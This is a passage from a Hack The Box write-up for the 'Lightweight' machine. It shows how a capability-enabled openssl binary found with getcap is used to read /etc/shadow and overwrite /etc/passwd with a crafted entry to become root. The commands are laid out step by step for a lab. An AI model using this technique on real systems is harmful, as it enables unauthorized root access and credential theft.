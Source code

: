 > In essence, if a binary has a capability set to **"ep"**, it can directly use that capability without requiring any further action to promote it to the effective set. This can be useful for granting specific privileges to a non-root user without giving them full **root** access.

```bash
file openssl
file tcpdump
# executables!

md5sum $(which openssl)
md5sum openssl
which tcpdump
md5sum $(!!)
md5sum tcpdump 

getcap -r * 2>/dev/null
# openssl =ep
# --> openssl =ep --> ALL the capabilites permitted (p) and effective (e)

openssl enc -in /etc/shadow 
# :(
./openssl enc -in /etc/shadow | head -n 8

cat /etc/passwd > malicious_passwd
openssl passwd

vi malicious_passwd
cat malicious_passwd | head -n 1
# :)

./openssl enc -in ./malicious_passwd -out /etc/passwd
su root
whoami
```

<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_43.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_44.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_45.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> What a great experience it is to face this kind of machines, where one must rethink things and adjust the attack vector to finally succeed in the goal of engaging the lab. It is a huge satisfaction to have that technique that you try over and over again, work in the end and allow you to keep moving forward. **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** provides excellent machines, not only because of the vulnerabilities to exploit, but also because of the configuration they have, which I imagine must take a huge investment of time, imagination and effort. It is time to choose the new box to engage, but first I must kill this one.

<br /><br />
<img src="{{ site.img_path }}/lightweight_writeup/Lightweight_46.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
